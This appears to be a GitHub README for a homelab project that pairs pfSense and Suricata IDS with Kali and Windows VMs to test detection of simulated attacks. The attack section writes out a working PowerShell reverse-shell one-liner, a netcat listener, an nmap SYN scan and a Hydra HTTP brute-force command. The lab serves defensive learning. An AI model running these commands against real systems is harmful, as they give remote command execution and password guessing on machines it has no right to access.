 # 🛡️ Cybersecurity Homelab: Suricata IDS + Reverse Shell Attack Simulation

![Status](https://img.shields.io/badge/status-completed-brightgreen)  
![Platform](https://img.shields.io/badge/platform-VirtualBox-blue)  
![Log Type](https://img.shields.io/badge/logs-Suricata%20Alerts-orange)

## 📘 Project Overview

This project demonstrates how to set up a virtualized cybersecurity homelab using **pfSense**, **Suricata IDS**, **Kali Linux**, and **Windows 10**. It simulates a real-world cyberattack involving a **reverse shell** and evaluates **Suricata's detection capability**.

---

## 🏗️ Lab Topology

![_- visual selection](https://github.com/user-attachments/assets/4f46f75e-951e-4bed-b097-f30b0ecb1534)


All machines are connected via **VirtualBox Internal Network (LAN_NET)**.

---

## 🔧 Technologies Used

- VirtualBox
- pfSense Firewall + Suricata IDS
- Kali Linux (Netcat, Nmap, Hydra)
- Windows 10 (PowerShell reverse shell)
- Emerging Threats Open Rules

---

## ⚙️ Step-by-Step Setup

### 1. Homelab Configuration
- Installed pfSense and configured LAN interface as `192.168.1.1`
- Installed Suricata on pfSense and enabled Alert-only mode on LAN
- Added **Kali (192.168.1.100)** and **Windows (192.168.1.101)** to LAN_NET

### 2. Rule Configuration
- Enabled decoder and stream rules by default
- Added `emerging-shellcode.rules`, `scan.rules`, and `http-events.rules`
- Suricata configured to alert on suspicious traffic

---

## 🧪 Simulated Attacks

### ✔️ Reverse Shell
- On Kali:
  ```bash
  nc -nvlp 4444

  On Windows PowerShell:
  $c=New-Object Net.Sockets.TCPClient('192.168.1.100',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=(iex $d 2>&1 | Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($o),0,$o.Length)}

   Nmap Port Scan:
sudo nmap -sS 192.168.1.101

Hydra Brute Force (HTTP):
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-get



